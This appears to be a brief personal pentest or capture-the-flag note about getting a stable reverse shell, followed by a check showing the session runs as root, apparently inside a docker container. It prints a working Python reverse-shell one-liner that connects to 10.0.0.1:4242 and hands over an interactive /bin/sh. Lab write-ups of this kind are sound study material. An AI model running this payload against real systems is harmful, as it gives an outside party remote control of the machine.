 Finally managed to get a stable reverse shell from https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python

Using an interactive flag on `/bin/sh -i`
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
![[Pasted image 20240905152305.png]]
![[Pasted image 20240905152318.png]]

```bash
ip a
```
![[Pasted image 20240905154048.png]]
It looks like we're in a docker container, as being root is strange

